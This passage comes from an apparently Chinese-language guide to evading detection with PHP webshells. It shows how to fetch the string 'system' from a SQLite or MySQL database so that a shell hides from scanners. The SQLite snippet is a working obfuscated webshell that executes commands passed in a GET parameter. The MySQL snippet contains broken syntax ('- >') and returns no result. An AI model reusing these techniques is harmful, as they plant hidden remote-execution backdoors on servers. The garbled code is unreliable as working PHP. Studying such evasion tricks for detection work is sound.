可以尝试通过读取数据库内的内容，来获取敏感关键词或者拿到执行命令的关键语句，就可以拼接到 php 中执行恶意的代码了。

### 6.1 Sqlite 数据库

配合我上面写的 `file_put_contents()` 文件写入函数，先写入本地 Sqlite 文件然后读取敏感内容

```php
$path = "AabyssZG.db";
$db = new PDO("sqlite:" . $path);
//连接数据库后查询敏感关键词
$sql_stmt = $db->prepare('select * from test where name="system"');
$sql_stmt->execute();
//提权敏感关键词并进行拼接
$f = substr($sql_stmt->queryString, -7, 6);
$f($_GET['aabyss']);       //system($_GET['aabyss']);
```

### 6.2 MySQL 数据库

这里使用 `MySQLi()` 这个函数，其实 PHP 有很多 MySQL 连接函数，可自行尝试

然后通过这个函数，连接公网数据库（只要目标能出网），即可连接并获得敏感字符拼接到 php 中

```php
function coon($sql) {
    $mysqli = new MySQLi("localhost", "test", "test123", "test");
    //默认的 MySQL 的类，其属性与方法见手册
    if ($mysqli - > connect_error) {
        //connect_error 为属性，报错
        die("数据库连接失败：".$mysqli - > connect_errno. "--".$mysqli - > connect_error);
        // connect_errno:错误编号
    }
    $mysqli - > select_db("test"); //选择数据库
    // 返回值 $res 为资源类型（获取到结果的资源类型）
    $res = $mysqli - > query($sql) or die($mysqli - > error);
    //释放结果集，关闭连接
    $mysqli - > close();
}
$sql = "select * from test where name LIKE 'system'";
$arr = coon($sql);
$res = array("data" => $arr);
echo json_encode($res);
```

## 7# PHP 过滤器
